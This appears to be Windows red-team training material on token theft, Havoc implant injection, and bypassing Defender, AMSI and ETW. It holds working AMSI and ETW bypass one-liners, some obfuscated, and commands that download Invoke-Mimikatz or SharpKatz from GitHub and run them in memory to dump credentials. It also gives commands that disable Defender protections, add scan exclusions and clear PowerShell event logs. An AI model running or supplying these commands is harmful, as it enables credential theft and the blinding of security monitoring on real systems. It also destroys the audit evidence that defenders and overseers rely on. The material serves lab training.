An adversary can use built-in Windows API functions to copy access tokens from existing processes; this is known as token stealing. These token can then be applied to an existing process (i.e. Token Impersonation/Theft) or used to spawn a new process (i.e. Create Process with Token). An adversary must already be in a privileged user context (i.e. administrator) to steal a token. However, adversaries commonly use token stealing to elevate their security context from the administrator level to the SYSTEM level. An adversary can then use a token to authenticate to a remote system as the account for that token if the account has appropriate permissions on the remote system.
Any standard user can use the runas command, and the Windows API functions, to create impersonation tokens; it does not require access to an administrator account.
MITRE

Overview
Access token theft is a critical attack vector in Windows environments, allowing adversaries to impersonate high-privilege accounts such as NT AUTHORITY\SYSTEM. This tactic is aligned with MITRE ATT&CK technique T1134 (Access Token Manipulation). While winlogon.exe is a common target, focusing only on it can limit detection capabilities.

Stealing Access Tokens
Attackers use several Windows API functions to steal and manipulate access tokens:
OpenProcess()– Opens a handle to a target process.OpenProcessToken()– Retrieves the access token from the process.ImpersonateLoggedOnUser()– Impersonates another user’s security context.DuplicateTokenEx()– Duplicates an existing token.CreateProcessWithTokenW()– Launches a new process with a token.
These functions enable privilege escalation and lateral movement.
Elevating to SYSTEM Privileges
Even if local admins have restricted privileges (e.g., no SeDebugPrivilege), SYSTEM processes retain them. By impersonating SYSTEM tokens, attackers bypass security restrictions and gain full system control.
Detection Challenges
Most defenses focus on winlogon.exe as the source of SYSTEM tokens. This narrow focus can miss other viable SYSTEM processes that attackers may target. Broadening monitoring scope improves detection efficacy.
Alternative SYSTEM Processes
Other SYSTEM processes that can be targeted include:
services.exe– Manages system services.lsass.exe– Handles authentication.smss.exe– Session manager.csrss.exe– Manages user-mode side of the Win32 subsystem.
Monitoring these increases resilience to token theft.
Defensive Measures
- Audit SYSTEM Processes – Monitor for token misuse.
- Enforce Least Privilege – Restrict unnecessary privileges.
- Security Tools – Use tools that detect token-related anomalies.
- User Education – Train users against phishing and social engineering.
By understanding access token theft techniques and expanding detection beyond winlogon.exe, defenders can significantly improve Windows environment security.
Get-Token
The following Windows API calls can be used to steal and abuse access tokens: OpenProcess(), OpenProcessToken(), ImpersonateLoggedOnUser() , DuplicateTokenEx(), CreateProcessWithTokenW().

TokenPlayer-v0.8.exe --impersonate --pid 4536 --spawn
needs sedebugprivilege! Admin in high integrity (UAC Bypass)
accesschk.exe -p -f -v 3356
https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1
POWERSPLOIT
git clone https://github.com/PowerShellMafia/PowerSploit.git
cd .\PowerSploit\Privesc\
import-module .\Privesc.psd1
get-command -module Privesc
Get-ProcessTokenPrivilege
login as student powershell Start-Process -FilePath "powershell.exe" -Verb RunAs
Lab - Token theft
Access Token Theft: Table Summary
| Category | Details |
|---|---|
| Threat | Access token theft for privilege escalation and impersonation of SYSTEM-level accounts |
| MITRE ATT&CK | T1134 – Access Token Manipulation |
| Common APIs Used | OpenProcess(), OpenProcessToken(), ImpersonateLoggedOnUser(), DuplicateTokenEx(), CreateProcessWithTokenW() |
| Typical Target Process | winlogon.exe (commonly abused for SYSTEM token impersonation) |
| Alternative Targets | services.exe, lsass.exe, smss.exe, csrss.exe |
| Why SYSTEM Tokens? | SYSTEM retains powerful privileges (e.g., SeDebugPrivilege) even when restricted for local admins |
| Detection Challenge | Over-reliance on monitoring winlogon.exe can overlook token theft using other SYSTEM processes |
| Defensive Actions | - Audit all SYSTEM processes - Enforce least privilege - Deploy security tooling - Educate users |
https://specterops.io/wp-content/uploads/sites/3/2022/06/A_Process_is_No_One.pdf
MITIGATION: The
SeDebugPrivilegecan be removed from the local administrator group (by using Group policies) to make it harder for an attacker to dump credentials or interact with memory of other processes. However, privileges cannot be revoked from theSYSTEM accountas they are necessary for the operating system to run. This makes SYSTEM access tokens extremely valuable for attackers in hardened environments.
PRIVILEGES NEEDED:
High Integrity-> this is needed to access process running in HIGH integrity (i.e.NT AUTHORITY/SYSTEM)- SeDebugPrivilege
- SeImpersonateUser
- AdjustTokenPrivileges
git clone --recursive https://github.com/0xbadjuju/Tokenvator.git
Tokenvator.exe GetSystem /Process:3016 /command:'cmd.exe


Let's see if we can use our HAVOC demon implant to escalate our privileges from Admin (we'll start with high integrity here as we have already demonstrated how we can get there) to NT AUTHORITY. First clean up all your current implants by selecting each one and marking them as dead , EXIT PROCESS and finally remove the implant from our GUI.


Now let's start a new demon implant running with Threatadmin, this will automatically spawn a new session in high integrity.
Open a command prompt and type the following
whoami /groups
c:\temp\demon.x64.exe

We'll see a new session spawn in our Havoc GUI, let's interact with it using the TOKEN module and do a whoami to check our privileges.


Lab - Injection
SUMMARY
Adversaries may inject code into processes in order to evade process-based defenses as well as possibly elevate privileges. Process injection is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process.
There are many different ways to inject code into a process, many of which abuse legitimate functionalities. These implementations exist for every major OS but are typically platform specific.
More sophisticated samples may perform multiple process injections to segment modules and further evade detection, utilizing named pipes or other inter-process communication (IPC) mechanisms as a communication channel.
MITRE

shellcode inject x64 684 /opt/havoc/payloads/demon.x64.bin
Lab - GetSystem
Chapter 0.1 - Windows Defender / MDE (EDR)
TL;DR : This chapter explains how most AV/EDR's work - in this case we'll focus on Microsoft Defender (the AV part), MDE (Microsoft Defender for Endpoint) which is the EDR component that we'll deal with later on.

Detection Techniques Used by Microsoft Defender Antivirus (Not MDE!!!)
| Detection Technique | Description |
|---|---|
| Signature-Based Detection | Compares files against a database of known malware signatures. Effective against known threats. |
| Heuristic Analysis | Examines the behavior and characteristics of files to identify potentially malicious activity. |
| Behavioral Monitoring | Monitors the behavior of applications and processes in real-time to detect and block malicious behavior. |
| Machine Learning | Uses machine learning models to analyze and classify files based on their characteristics. |
| Cloud-Based Detection | Sends suspicious files or metadata to the cloud for further analysis using advanced algorithms. |
| Memory Scanning | Scans the system's memory to detect and remove malware that resides in memory. |
| Network Inspection | Monitors network traffic for signs of malicious activity and blocks network-based attacks. |
Advanced Technologies
| Technology | Description |
|---|---|
| Hybrid Detection and Protection | Combines on-device detection with cloud-based analysis for faster and more effective threat detection. |
| Behavior Monitoring Engine | Continuously monitors for potential attacks post-execution. |
| Specialized Machine Learning Models | Uses models for different file types and behaviors to make real-time verdicts. |
Differences Between Microsoft Defender Antivirus (MDA) and Microsoft Defender for Endpoint (MDE)
| Feature | Microsoft Defender Antivirus (MDA) | Microsoft Defender for Endpoint (MDE) |
|---|---|---|
| Endpoint Detection and Response (EDR) | Not available | Provides advanced EDR capabilities to detect, investigate, and respond to threats. |
| Threat and Vulnerability Management | Not available | Offers comprehensive threat and vulnerability management to identify and remediate vulnerabilities. |
| Attack Surface Reduction (ASR) | Limited | Provides extensive ASR rules to reduce the attack surface and prevent exploit techniques. |
| Automated Investigation and Remediation | Not available | Automatically investigates and remediates threats using AI and automation. |
| Advanced Threat Hunting | Not available | Offers advanced threat hunting capabilities with detailed search queries and analytics. |
| Integration with Microsoft 365 | Limited | Seamlessly integrates with Microsoft 365 and other enterprise security solutions. |
| Sandboxing and Detonation | Not available | Uses sandboxing to analyze and detonate suspicious files in a controlled environment. |
| Behavioral Analytics and Anomaly Detection | Basic | Employs advanced behavioral analytics and anomaly detection to identify sophisticated threats. |
| Threat Intelligence and Analytics | Limited | Leverages Microsoft's Threat Intelligence to provide real-time insights and analytics. |
| Centralized Management and Reporting | Basic | Provides centralized management, reporting, and alerting for enterprise environments. |
Summary
- Endpoint Detection and Response (EDR): MDE provides advanced EDR capabilities that allow organizations to detect, investigate, and respond to threats in real-time. MDA does not offer these capabilities.
- Threat and Vulnerability Management: MDE offers tools to identify and remediate vulnerabilities across the organization's environment. MDA does not include this feature.
- Attack Surface Reduction (ASR): MDE provides comprehensive ASR rules to minimize the attack surface and prevent exploit techniques. MDA has limited ASR capabilities.
- Automated Investigation and Remediation: MDE uses AI and automation to automatically investigate and remediate threats. MDA does not have this capability.
- Advanced Threat Hunting: MDE offers advanced threat hunting capabilities, allowing security analysts to perform detailed searches and analytics. MDA does not include threat hunting features.
- Integration with Microsoft 365: MDE seamlessly integrates with Microsoft 365 and other enterprise security solutions, providing a unified security experience. MDA has limited integration with Microsoft 365.
- Sandboxing and Detonation: MDE uses sandboxing to analyze and detonate suspicious files in a controlled environment, providing detailed insights into their behavior. MDA does not offer sandboxing.
- Behavioral Analytics and Anomaly Detection: MDE employs advanced behavioral analytics and anomaly detection to identify sophisticated threats. MDA has basic behavioral monitoring.
- Threat Intelligence and Analytics: MDE leverages Microsoft's Threat Intelligence to provide real-time insights and analytics. MDA has limited threat intelligence capabilities.
- Centralized Management and Reporting: MDE offers centralized management, reporting, and alerting for enterprise environments, making it easier to manage security across multiple endpoints. MDA has basic management and reporting features.
These differences highlight the advanced capabilities that Microsoft Defender for Endpoint (MDE) provides, making it suitable for enterprise environments with complex security needs.


https://www.edr-telemetry.com/windows.html
AMSI (Anti-Malware Scanning Interface)
WARNING : Amsi.dll is loaded into every powershell.exe process, but when running dotnet (csharp) binaries, amsi integrates directly with the clr which loads AMSI on demand. Amsi Bypasses that work in powershell don't necessariy work for the CLR integration.
AmsiScanBuffer AmsiScanString AssemblyLoad
Show api calls made (user to kernel/syscall)
Languages
- powershell (scripting)
- vb.net (scripting)
- c# (compiled)
- f# (compiled)

Here's a simplified diagram:

AMSI
Introduced in June 2015.
The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.
AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.
The AMSI feature is integrated into these components of Windows 10:
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell
v5(scripts, interactive use, and dynamic code evaluation) - Windows Script Host (Wscript.exe and Cscript.exe) (scripts and dynamic
- Office365 (JavaScript/VBA)
- Windows Management Instrumentation (WMI)
- .Net Framework 4.8 (Scanning for all assemblies) - NEW
Runtime – Antimalware Scanning for All Assemblies : In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/
.NET Framework 4.8 on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
In its default configuration, macros are scanned at runtime via AMSI except in the following scenarios:
- Documents opened while macro security settings are set to “Enable All Macros”
- Documents opened from trusted locations
- Documents that are trusted documents
- Documents that contain VBA that is digitally signed by a trusted publisher
https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps
Runtime – Antimalware Scanning for All Assemblies In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
.NET Framework 4.8 (released April 18th on Windows 10) triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
LINK : https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/
LINK : https://en.wikipedia.org/wiki/.NET_Framework_version_history

Supported OS
- Windows 10 PRO/ENTERPRISE and Windows Server 2016 and later
Supported 3rd party Antivirus/EDR vendors
- Windows Defender
- Carbon Black Defense
- Crowdstrike Falcon
- Kaspersky
- McAfee Endpoint Security 10.6.0
- Sophos
- Symantec (v14.3 and later)
- and a lot more...
LINK : https://github.com/subat0mik/whoamsi
To check which version of .net and the CLR is installed open a powershell prompt and type the following:
$psversiontable
[System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
$dotnet = [System.Reflection.Assembly]::Load("mscorlib")
$dotnet.GetName().Version

Let's see if our AMSI engine is working properly by doing a simple AMSI Test Sample (comparable to EICAR):
AMSITEST
Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'

Even funnier, when you run the following command in a powershell console, AMSI will flag it as malicious, although the powershell script is not even available on your windows machine:
Invoke-Mimikatz

Bypassing AMSI and how it works
As a first check, let's see in which process AMSI.dll has been loaded. Open a powershell prompt:
Get-Process | where {$_.modules.ModuleName -eq 'Amsi.dll'}

We can also use SystemInformer (previously known as Process Hacker) to verify, open System Informer, scroll down to your powershell process, right-click and select properties:

Go to the modules tab, this will show all dll's loaded by the process, you will find the amsi.dll there indeed!

We're going to have a closer look at that AMSI.dll and see which functions it exports (more on functions later - just know that a windows program will load certain dll's from disk - these dll's contain common functions that Microsoft has made avaiable to make life a bit easier for developers :))
Pre-requisites: dumpbin.exe /exports file.dll (requires visual studio c++ and msvc v142)


Open the "Developer Command Prompt for Visual Studio 2019"

If we have a look at the amsi.dll's exported functions using dumpbin we see the forllowing functions are avaiable:
dumpbin c:\windows\system32\amsi.dll /exports
ordinal hint RVA name
1 0 00003860 AmsiCloseSession
2 1 000034E0 AmsiInitialize
3 2 00003800 AmsiOpenSession
[+] 4 3 00003880 AmsiScanBuffer -> scans the content of buffers
[+] 5 4 00003980 AmsiScanString -> scans the content of strings (variables)
6 5 000039E0 AmsiUacInitialize
7 6 00003C60 AmsiUacScan
8 7 00003C00 AmsiUacUninitialize
9 8 000037A0 AmsiUninitialize
10 9 00001B00 DllCanUnloadNow
11 A 00001B40 DllGetClassObject
12 B 00001C80 DllRegisterServer
13 C 00001C80 DllUnregisterServer
We can see here the AmsiScanBuffer and AmsiScanString functions we talked about earlier. So the question is, how to we bypass this functionality?
Luckily there are a ton of AMSI bypasses publicly available : (https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
In our next lab we'll be using "Matt Graebers Reflection method", it's a simple one-liner which uses reflection to set the amsiInitFailed field to $true, and will also work in .NET binaries, not just in PowerShell. Let's have a look how it works before we implement it.

"Matt Graebers Reflection method"
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
Understanding the Technique:
How it Works in powershell:
- Reflection: The core of this bypass relies on .NET reflection, which allows code to inspect and modify types, fields, and methods at runtime.
- Targeting
amsiInitFailed: The code specifically targets theamsiInitFailedstatic field within theSystem.Management.Automation.AmsiUtilsclass. This field is used to indicate whether the AntiMalware Scan Interface (AMSI) initialization has failed. - Setting to
$true: By setting this field to$true, the code effectively tells the .NET runtime that AMSI initialization has failed, causing AMSI scans to be skipped.
How it Works in .NET Binaries:
- Locating
AmsiUtils: Just like in PowerShell, you can use reflection in C# (or other .NET languages) to locate theSystem.Management.Automation.AmsiUtilsclass. - Accessing
amsiInitFailed: You can then use reflection to access theamsiInitFailedstatic field. - Setting the Value: Finally, you can use reflection to set the value of the
amsiInitFailedfield totrue.
NOTE: Modern
EDRsolutions are designed to detect such reflection-based attacks. They often monitor for suspicious memory modifications and code behavior.EDR's will hook functions and rely heavily on telemtry such asETW providers(hint hint), of course these can also be bypassed. For now we focus on AV bypassing.
In the next chapter we will briefly go over ETW and then we'll apply our knowledge on how to bypass AMSI and ETW in our next lab!
ETW - Event Tracing for Windows (Kernel mode)
TL;DR ETW basically is a kernel level debug logging mechanism in Windows - it allows to gather advanced telemetry about functions being called.
Windows Event Logscontain a subset of ETW events. Typically used by application developers to debug programs, but has found its way as a telemetry source forEDR's.
Event Tracing for Windows (ETW) is a high speed tracing facility built into Windows. Using a buffering and logging mechanism implemented in the operating system kernel, ETW provides an infrastructure for events raised by both user mode (apps) and kernel mode components (drivers). ETW can be used for system and app diagnosis, troubleshooting, and performance monitoring.
 https://learn.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw
https://learn.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw
Provider A provider is an instrumented component that generates events. A provider can be a user mode app, a kernel mode driver, or the Windows kernel itself. In addition to fixed event data (header), an event can carry user data.
An event is an event-based representation of data. The data can be used for in-depth analysis. An event can also be used to produce counters. Counters provide a sample-based view of data. They typically contain a small set of data to show current state, for example I/O bytes per second and interrupts per second.
A provider must register with ETW and send events by calling the ETW Logging APIs. Providers register a callback function for enable and disable notifications so that tracing can be enabled and disabled dynamically.
Session The ETW session infrastructure works as an intermediate broker that relays the events from one or more providers to the consumer. A session is a kernel object that collects events into kernel buffer and sends them to a specified file or real-time consumer process. Multiple providers can be mapped to a single session, which allows users to collect data from multiple sources.
Controller A controller starts, stops, or updates a trace session. A session is a unit for tracing. Providers are mapped (or enabled) to a specific session. A controller enables and disables providers so that they can start sending events to ETW. Controller functionalities can be invoked with tools provided by Microsoft or you can write your own app.
Logman.exe is an in-box controller app. Windows Performance Recorder (WPR) in the Windows Performance Toolkit is the recommended controller process.
Consumer A consumer is an app that reads a logged trace file (ETL file) or captures events in an active trace session in real time, and processes events. Event Viewer and Resource Monitor are in-box ETW consumer apps.
Windows Performance Analyzer (WPA) in the Windows Performance Toolkit is the recommended consumer process.
To see which ETW providers are running on the system
logman query -ets

But there are a lot more ETW providers available:

Interesting ETW providers
- Microsoft-Windows-Kernel-Process
- Microsoft-Windows-DotNETRuntime
- Microsoft-Windows-Threat-Intelligence
- Microsoft-Windows-Defender
- Microsoft-Windows-PowerShell
So let's do a deep dive on what ETW can see in powershell by using logman to collect events to PowerShellTrace.etl.
You can search the available ETW providers like this:
logman query providers | select-string "powershell"

And get detailed information like this:
logman query providers Microsoft-Windows-PowerShell

We'll set up an ETW tracing session for the powershell provider like this:
logman create trace PowerShellTrace -p Microsoft-Windows-PowerShell -o PowerShellTrace.etl -ets
logman -ets

This will create an event trace log (.etl file), which we can then convert to txt, csv or even evtx (windows event log format), any commands we run will be collected. In the same powershell console you just ran the create trace command, run some powershell commands:
$pid
get-process
IMPORTANT: After running our commands, stop the powershell event trace session and remove it (otherwise this keep collecting logs)
logman stop PowerShellTrace -ets
Remove-EtwTraceSession -Name PowerShellTrace
We have now collected ETW Telemetry on powershell, we could ship this of to an Elastic stack, but for now let's just convert the trace file to an EVTX log that we can view with Windows Eventviewer.
tracerpt PowerShellTrace.etl -o PowershellTrace.evtx -of evtx -lr

Now open Windows Eventviewer and load the saved log by going to ACTION and then SAVED LOG, browse to your PowerShellTrace.evtx file and click OK.:

We see a whole bunch of logs here, but let's see if we can find the commands we typed ($pid and get-process), by filtering for event ID 4104

Click on Filter Current Log in the right pane of eventviewer and enter `4104

And yes we can find both commands:


MINI LAB - BYPASSING ETW in Powershell
run after amsi bypass:
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
then run
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
No detections, AMSI is disabled, ETW is disabled -> Check eventviewer -> no powershell logs.
Understanding the Components:
[Reflection.Assembly]::LoadWithPartialName('System.Core'):- Loads the
System.Core.dllassembly, containing core .NET classes, includingSystem.Diagnostics.Eventing.EventProvider.
- Loads the
.GetType('System.Diagnostics.Eventing.EventProvider'):- Retrieves the
System.Diagnostics.Eventing.EventProvidertype, responsible for emitting ETW events.
- Retrieves the
.GetField('m_enabled','NonPublic,Instance'):- Retrieves the
m_enabledfield of theEventProviderclass, a non-public instance field that determines whether ETW events are enabled.
- Retrieves the
.SetValue(...):- Sets the value of the
m_enabledfield.
- Sets the value of the
[Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider'):- Retrieves the
System.Management.Automation.Tracing.PSEtwLogProvidertype, a PowerShell-specific wrapper around the .NET ETW functionality.
- Retrieves the
.GetField('etwProvider','NonPublic,Static').GetValue($null):- Retrieves the
etwProviderfield of thePSEtwLogProviderclass, a non-public static field holding a reference to theEventProviderinstance used by PowerShell.
- Retrieves the
,0:- Sets the
m_enabledfield to0(false), disabling ETW events for the PowerShellEventProvider.
- Sets the
How It Works (ETW Bypass):
- PowerShell uses the .NET
EventProviderclass to generate ETW events. - The
PSEtwLogProviderclass in PowerShell acts as a bridge, holding the specificEventProviderinstance used for PowerShell logging. - The
m_enabledfield within theEventProviderclass controls whether events are actually emitted. - By using reflection, the code directly accesses and modifies this internal
m_enabledfield, setting it to0. - This prevents the PowerShell
EventProviderfrom generating ETW events, effectively bypassing ETW logging for that PowerShell process.

Key Points:
- This method relies on internal .NET implementation details and might break if those details change in future .NET or PowerShell versions.
- It only affects the current PowerShell process.
- It is very effective at disabling the ETW logging from within powershell.
- This technique is commonly used by malicious actors.
- EDR solutions monitor for this type of activity.
CSHARP CODE (AI Generated) using the same ETW bypass (also works for .net binaries)
using System;
using System.Diagnostics.Eventing;
using System.Reflection;
public class EtwBypass
{
public static void Main(string[] args)
{
try
{
// Get the EventProvider type
Type eventProviderType = typeof(EventProvider);
// Find the m_enabled field (non-public, instance)
FieldInfo mEnabledField = eventProviderType.GetField("m_enabled", BindingFlags.NonPublic | BindingFlags.Instance);
// Get the EventProvider instance used by the application (you'll need to adapt this part)
// This is the tricky part, as you need to find the specific instance you want to patch.
// In a real application, you would need to find the event provider instance that is used.
// This example creates a new instance just for demonstration.
EventProvider dummyProvider = new EventProvider(Guid.NewGuid());
// Set the m_enabled field to 0 (false)
if (mEnabledField != null)
{
mEnabledField.SetValue(dummyProvider, 0);
Console.WriteLine("ETW bypassed.");
}
else
{
Console.WriteLine("m_enabled field not found.");
}
}
catch (Exception ex)
{
Console.WriteLine($"Error: {ex.Message}");
}
}
}
ETW Patching in .NET Binaries vs. PowerShell
PowerShell Patch:
- Uses reflection to modify the
PSEtwLogProviderwithin the PowerShell process. - Specifically targets how PowerShell logs events.
- Limited to the PowerShell process.
- Executed as a PowerShell command.
- Targets the PowerShell ETW logging mechanism.
.NET Binary Patch (C# Example):
- Compiles into a standalone .NET executable.
- Uses reflection to directly modify the
EventProviderclass within the running .NET binary. - Can patch ETW logging for any .NET application that uses the standard .NET
EventProviderclass, if the correctEventProviderinstance can be located. - Can affect any .NET application.
- Executed as a compiled executable.
- Targets the
EventProviderclass, allowing it to target any .NET application using that class.
Key Differences and Implications:
- Scope:
- PowerShell patch: Limited to the PowerShell process.
- .NET binary patch: Can affect any .NET application, if the correct event provider can be located.
- Execution Context:
- PowerShell patch: Executed as a PowerShell command.
- .NET binary patch: Executed as a compiled executable.
- Targeting:
- Powershell patch: Targets the powershell ETW logging.
- .net binary patch: Targets the event provider class, so it can target any .net application that uses that class.
In summary: The C# code provides a more general-purpose ETW patching mechanism that can be used independently of PowerShell, while the PowerShell one-liner is specific to the PowerShell environment.
TelemetrySourceror
Make sure secure boot is disabled in VM
bcdedit.exe -set TESTSIGNING ON
Reboot the machine
Use PSEXEC to run as system and run Telemetry Sourceror
ETW USER LAND vs KERNEL MODE
Powershell Lab - Bypassing AMSI and ETW
IMPORTANT : Please do not send submit samples to
Virus Total or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training. Make sure at all times that sample submussion in Microsoft Defender isturned off, and if for some reason you get prompted to submit a sample, deny the request.
ENABLE POWERSHELL LOGGING : For this lab and all future labs, turn on powershell logging on your windows machine.

Go to Local Computer Policy - Computer Configuration - Administrative Templates - Windows Components.

Scroll down to Microsoft Powershell and enable MODULE LOGGING and SCRIPT BLOCK LOGGING.

This will log any powershell commands and script contents run in a powershell console - using eventviewer we can have a look for Event ID 800, 4103 and 4104. Open Eventviewer and go to Applications and Services Logs - MICROSOFT - POWERSHELL - OPERATIONAL.


Make exceptions in Windows Defender:
[+] C:\Downloads -> to make it easier to download our tools with out AV Detection
[+] C:\THEV -> our training course
[+] C:\Temp -> Used by GoCheck
[+] C:\SysinternalsSuite
We can do this using powershell:
Add-MpPreference -ExclusionPath "C:\SysinternalsSuite"
(Get-MpPreference).ExclusionPath
We can check some general Defender settings in powershell:
Get-MpComputerStatus
Get-MpThreat
Turning off various modules of Microsoft Defender using powershell:
Real-Time Protection
Real-Time Protection: This is a feature of Microsoft Defender that continuously monitors your system for threats (e.g., malware, viruses) in real-time. It scans files, apps, and processes as they are accessed or executed. Setting DisableRealtimeMonitoring to $true turns off real-time protection, meaning files and processes are no longer automatically scanned.
This does not disable Microsoft Defender entirely — it only disables real-time scanning. Other features like scheduled scans and manual scans will still work.
Set-MpPreference -DisableRealtimeMonitoring $true
Cloud-Delivered Protection
The MAPSReporting setting controls the Microsoft Active Protection Service (MAPS), also referred to as Cloud-Delivered Protection. Setting it to Disabled stops your system from sending information about threats to Microsoft and prevents it from receiving cloud-based threat intelligence in real time.
Set-MpPreference -MAPSReporting Disable
Automatic Sample Submission
SubmitSamplesConsent controls how Microsoft Defender submits samples of suspicious or potentially harmful files to Microsoft for analysis. These samples help improve Defender’s detection and protection capabilities.
NeverSend: This value tells Microsoft Defender to disable all sample submissions. No files will be sent to Microsoft for further analysis, even if they’re flagged as suspicious.
Set-MpPreference -SubmitSamplesConsent NeverSend
| Consent Level | Description |
|---|---|
| 0 | Always Prompt |
| 1 | Send Safe Samples Automatically |
| 2 | Never Send |
Periodic Scanning
The DisableScanningNetworkFiles setting in Microsoft Defender controls whether network files are scanned. When you set DisableScanningNetworkFiles to $true, it disables the scanning of files located on network drives
Set-MpPreference -DisableScanningNetworkFiles $true
LAB - Evading AMSI
For this lab we will enable
Microsoft Defender- in order to demonstrate how AMSI works, and how to bypass it.
Check if Defender is turned on by either pasting the powershell commands below, or by running the checkav.ps1 script:
Open a powershell prompt:
cd \thev\labs\powershell
.\checkav.ps1
The script contains the following code:
[PSCustomObject]@{
"Real-Time Protection" = if ((Get-MpComputerStatus).RealTimeProtectionEnabled -eq $false) {"disabled"} else {"enabled"}
"Cloud-Delivered Protection" = if ((Get-MpPreference).MAPSReporting -eq 0) { "disabled" } else { "enabled" }
"Automatic Sample Submission" = if ((Get-MpPreference).SubmitSamplesConsent -eq 2) { "disabled" } else { "enabled" }
"Periodic File Scanning" = if ((Get-MpPreference).DisableScanningNetworkFiles -eq $true) {"disabled"} else {"enabled"}
} | Format-Table -AutoSize
The output should be like this :

IMPORTANT: Make sure Real-Time Protection is
enabledand the rest isdisabled- if this is not the case just run the following script, it will configure the right settings.
cd \thev\labs\powershell
.\enableav.ps1
Before we start let's clear the powershell event logs, so there's no noise from before in there. You can do this by opening a powershell console and typing the following command:
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
Now from the same powershell terminal, run SharpKatz from memory with IEX (Invoke Expression)
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/Invoke-SharpKatz/refs/heads/main/Invoke-SharpKatz.ps1");Invoke-SharpKatz
We'll see the script won't execute since AMSI intercepted it before executing and has sent it to Defender that scanned it and determined it as malicious:

Let's have a look at the EventViewer logs - open EventViewer, select "Application and Services Logs", "Microsoft","Windows", "Powershell" and finally "Operational".

OK, so now what?
Bypassing AMSI - How it works
Let's clear the powershell event logs again:
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
NEW ONE:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
Invoke-obfuscation set scriptblock [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true) token string 2
output =
[Ref].Assembly.GetType(("{6}{4}{10}{3}{5}{7}{0}{11}{2}{1}{8}{9}"-f'.Auto','U','.Amsi','g','tem.','eme','Sys','nt','ti','ls','Mana','mation')).GetField(("{0}{1}{2}" -f 'amsi','InitFa','iled'),("{1}{0}{4}{2}{3}" -f'c','NonPubli','t','ic',',Sta')).SetValue($null,$true)
Safe both commands to a file and run gocheck64
And now let's run an obfuscated AMSI Bypass from the same powershell terminal:
OLD ONE
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
And let's try that Invoke-SharpKatz again, if all goes well, AMSI should be patched and the script will run:
Success!!!
DETECTIONS Eventlog 800, 4103, 4104
However bypassing AMSI doesn't disable eventlogs - which are useful telemetry for EDR's, SIEM's and UEBA's. Let's open Eventviewer again and see what was logged.
A very cool Forensics tools that can anaylyze powershell logs is Powershell-Hunter - if we run this on our powershell logs it will also flag some suspicious commands.
Ideally we don't want any of these logs to be generated and thus shutting off the telemety for security solutions, we can do this by patchin ETW (Event Tracing for Windows).
Let's clear the powershell event logs again before we apply the ETW bypass (remember AMSI is already patched so this ETW bypass doesn't need to be obfuscated):
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
ETW Bypass
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
In summary, this command does the following:
